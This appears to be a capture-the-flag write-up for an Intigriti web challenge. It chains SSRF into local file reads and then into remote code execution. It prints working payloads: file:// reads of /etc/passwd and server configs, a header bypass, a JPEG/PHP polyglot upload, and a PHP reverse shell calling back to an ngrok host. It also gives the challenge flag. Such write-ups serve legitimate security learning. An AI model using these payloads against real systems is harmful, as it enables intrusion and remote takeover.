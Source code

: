 +++
title = 'Intigriti | Challenge 1025 Writeup'
date = 2025-10-14T00:00:00-01:00
draft = false
tags = ['SSRF','LFI','RCE']
description = "An SSRF → LFI → RCE chain that yields full compromise. This write‑up documents both the unintended path to the flag and the canonical solution."
+++

Intigriti's October challenge 1025 was a really cool one, leveraging SSRF, local file inclusion, and RCE. I first found the flag in an unintended manner, and then worked my way into finding the RCE, popping that shell and flagging again! 

Kudos to [@chux](https://x.com/chux13786509) for this fun challenge ^.^

## Unintended Solution
We first have a panel where we can input the URL of an image and the app goes off to fetch it. Sounds innocent, right? In reality that panel will fetch any URL you give it. Indeed, under the hood the backend just runs a curl request with the supplied URL (and in our case it does not even check that the result is an image). That means we are not handing the server an _image_ so much as handing it an instruction: _go ask that address for me._

So… what’s the first thing that comes to one’s minds when they see that? **Server-Side Request Forgery (SSRF)**, because this app will happily make requests on our behalf to places we might not be able to reach directly.

We will try to exploit that to read local files to the server. We set the input to `file:///etc/passwd`, but obtained the error `Invalid URL: must include 'http'`:

![thumbnail](image.png)

Hence, we tried using `file:///etc/passwd?http` and this yielded the content of `/etc/passwd`, so the SSRF worked perfectly.

![alt text](image-1.png)

Using this, we explored the file system looking for the flag, and used the input `file:///?http` to list the content of the `/` directory.

![alt text](image-2.png)

There, we noticed a file with a random name, the `93e892fe-c0af-44a1-9308-5a58548abd98.txt`, and when fetching its content using the input `file:///93e892fe-c0af-44a1-9308-5a58548abd98.txt?http`, we got the flag : **INTIGRITI{ngks896sdjvsjnv6383utbgn}**

![alt text](image-3.png)

But as the challenge requirements mentioned the necessity of leveraging an RCE, we are not finished yet ;)

## Real Solution
Our goal is to pop a shell, so let's proceed to achieving that. We first inspect the files in the current directory using the input `file:///proc/self/cwd/?http`. We obtain five files as underlined in the screenshot below : 

![alt text](image-4.png)

Upon inspection, the one that might be the most interesting in our case is the `upload_shoppix_images.php`, as it allows uploading files to the server given the following code :
```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $file = $_FILES['image'];
        $filename = $file['name'];
        $tmp = $file['tmp_name'];
        $mime = mime_content_type($tmp);

        if (
            strpos($mime, "image/") === 0 &&
            (stripos($filename, ".png") !== false ||
            stripos($filename, ".jpg") !== false ||
            stripos($filename, ".jpeg") !== false)
        ) {
            move_uploaded_file($tmp, "uploads/" . basename($filename));
            echo "<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>";
        } else {
            echo "<p style='color:#ff5252'>❌ Invalid file format</p>";
        }
}
?>
```

Nevertheless, when trying to access it via `https://challenge-1025.intigriti.io/upload_shoppix_images.php`, we obtain a 403 Forbidden error. 

Hence, let's check the Apache configuration to see how the server actually works. We first check the file `/etc/apache2/apache2.conf` by setting the input to `file:///etc/apache2/apache2.conf?http`, and we observe that it includes the configurations in the directory `sites-enabled` given these lines : 
```bash
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
```
We check the content of that directory and observe that there is only one configuration file `000-default.conf`.

![alt text](image-5.png)

Let's check its content. 
```xml
<VirtualHost *:8080>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    <Directory /var/www/html/uploads>
        Options -Indexes
    </Directory>

    <Directory /var/www/html/public>
        Options -Indexes
    </Directory>

    <Files "upload_shoppix_images.php">
        <If "%{HTTP:is-shoppix-admin} != 'true'">
            Require all denied
        </If>
        Require all granted
    </Files>
</VirtualHost>
```

Given the rule :
```xml
<Files "upload_shoppix_images.php">
    <If "%{HTTP:is-shoppix-admin} != 'true'">
        Require all denied
    </If>
    Require all granted
</Files>
```
we should be able to access `https://challenge-1025.intigriti.io/upload_shoppix_images.php` by setting a header `is-shoppix-admin: true` in our request `is-Shoppix-Admin: true`. Upon testing, this proves to give us the webpage we want. 

![alt text](image-7.png)

![alt text](image-6.png)


Our goal now is to upload a reverse shell in the application, nevertheless, we need to upload a file that verifies these conditions :
```php
strpos($mime, "image/") === 0 &&
(stripos($filename, ".png") !== false ||
stripos($filename, ".jpg") !== false ||
stripos($filename, ".jpeg") !== false)
```
so basically, we need to upload a file such that : 
- The MIME type starts with `image/`
- The filename contains `.png`, `.jpg`, or `.jpeg` (case-insensitive)

To do so, we can just create a 1*1 JPG, append our PHP code to it and upload it to the server. Upon accessing it directly in the `/uploads`, our code will be executed and we will obtain our shell. Let's do that.

### PoC

1. We create the 1*1 JPG using the following bash oneliner : 
```bash
printf '%s' '/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAP//////////////////////////////////////////////////////////////////////////////////////2wBDAf//////////////////////////////////////////////////////////////////////////////////////wAARCAABAAEDASIAAhEBAxEB/8QAFQABAQAAAAAAAAAAAAAAAAAAAAX/xAAUEAEAAAAAAAAAAAAAAAAAAAAA/8QAFQEBAQAAAAAAAAAAAAAAAAAAAwT/xAAUEQEAAAAAAAAAAAAAAAAAAAAA/9oADAMBAAIRAxEAPwCfAAf/2Q==' | base64 -d > tiny.jpg
```

2. We create our reverse shell in `test.php` :
```php
<?php 
$sock=fsockopen("6.tcp.eu.ngrok.io",11347);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

3. We concatenate both files in a final one `test.jpg.php` and upload the latter to the server: 
```bash
cat tiny.jpg test.php > test.jpg.php
curl -X POST -F "image=@test.jpg.php" -H "is-shoppix-admin: true" https://challenge-1025.intigriti.io/upload_shoppix_images.php
```
We obtain a response containing : `<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>  </div>`. Hence, our file was successfully uploaded. Let's check it on `https://challenge-1025.intigriti.io/uploads/test.jpg.php` in the browser. 
Once we do that, we successfully receive the connexion back and obtain our shell.

Finally, we just need to find the flag as we showcase in the screenshot below : 
![alt text](flag.png)

Again, our flag is **INTIGRITI{ngks896sdjvsjnv6383utbgn}**!  